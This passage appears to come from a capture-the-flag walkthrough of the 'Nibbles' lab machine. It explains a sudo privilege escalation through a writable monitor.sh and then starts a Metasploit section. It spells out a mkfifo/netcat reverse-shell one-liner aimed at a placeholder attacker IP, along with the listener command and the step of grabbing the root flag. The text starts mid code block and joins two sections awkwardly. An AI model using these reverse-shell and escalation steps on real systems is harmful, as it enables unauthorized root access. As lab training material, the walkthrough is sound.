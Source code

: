         ```
        
    - Replace `<ATTACKER_IP>` with your attack machine's IP address.
        

- **Explanation**
    - `rm /tmp/f`: Removes any existing named pipe.
    - `mkfifo /tmp/f`: Creates a named pipe at `/tmp/f`.
    - `cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 8443 >/tmp/f`: This sends the output of the shell (`/bin/sh -i`) through a network connection to your attack machine using netcat (`nc`).

1. **Executing the Script**:
    
    - Run the modified `monitor.sh` script using `sudo`:
        
        ```bash
        sudo /home/nibbler/personal/stuff/monitor.sh
        ```
        
2. **Catching the Reverse Shell**:
    
    - Set up a listener on the attack machine:
        
        ```bash
        nc -lvnp 8443
        ```
        
    - Once the script is executed, catch the root shell.
        
3. **Root Access**:
    
    - After gaining the root shell, you can confirm access by running:
        
        ```bash
        id
        ```
        
    - Grab the `root.txt` flag.
        

**Key Points**:

- The ability to write to a file (`monitor.sh`) that can be run with root privileges (via `sudo`) allows us to escalate privileges.
- Always make a backup of the file before modifying it to prevent disruptions.
- Running `LinEnum.sh` helped discover the key vulnerability for privilege escalation.

**Nibbles - Alternate User Method - Metasploit"** process, including how to perform the steps, along with **study tips** at the end.

### Step-by-Step Guide:

### 1. **Starting Metasploit**

- The first step in this process is to start Metasploit by typing `msfconsole` in your terminal.
    
    ```bash
    msfconsole
    
    ```
    